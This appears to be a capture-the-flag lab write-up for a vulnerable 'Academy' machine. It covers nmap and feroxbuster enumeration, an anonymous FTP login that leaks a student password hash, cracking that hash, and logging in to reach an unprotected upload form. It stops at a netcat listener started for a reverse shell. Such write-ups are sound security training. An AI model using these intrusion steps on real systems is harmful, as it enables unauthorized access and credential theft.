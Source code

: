 # Academy
> 12.10.2023 - 12.10.2023
---
## Enumeration

**Nmap scan**
```bash
nmap -sC -sV 10.10.1.153
```

```
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.1.100
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1000     1000          776 May 30  2021 note.txt
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA)
|   256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA)
|_  256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:2B:D9:FB (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

The FTP server has anonymous login on! It contains an note:

```note.txt
Hello Heath !
Grimmie has setup the test website for the new academy.
I told him not to use the same password everywhere, he will change it ASAP.


I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command:

INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', '');

The StudentRegno number is what you use for login.


Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ?
We can always adapt it to our needs.

-jdelta
```

We have gotten the following credentials:
```
StudentRegno: 10201321
studentPhoto: ""
password: cd73502828457d15655bbd7a63fb0bc8
studentName: Rum Ham
pincode: 777777
session: ""
department: ""
semester: ""
cgpa: 7.60
creationdate: 2021-05-29 14:36:56
updationDate: ""
```

The most important credentials are the *StudentRegno* and the *password* hash.

The hash can be cracked by using [CrackStation](https://crackstation.net/): "student" "MD5"

## Webserver

Visiting the webserver, I discovered the Apache standard site. Further directory enumeration can be done with "feroxbuster":

```bash
feroxbuster --url http://10.10.1.153 -x php,html,txt
```

```
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      368l      933w    10701c http://10.10.1.153/index.html
301      GET        9l       28w      315c http://10.10.1.153/phpmyadmin => http://10.10.1.153/phpmyadmin/
200      GET       24l      126w    10356c http://10.10.1.153/icons/openlogo-75.png
200      GET      368l      933w    10701c http://10.10.1.153/
301      GET        9l       28w      312c http://10.10.1.153/academy => http://10.10.1.153/academy/
...
```

The directory: "academy" and "phpmyadmin" can be found.

## Academy

![[Capstone Academy01.png]]

We enter the credentials we have gotten earlier, to login into the account. Now go to the "My Profile" section, we find an unprotected upload section:

![[Capstone Academy02.png]]

To exploit this, start an netcat listener:

```bash
nc -lnvp 4200
```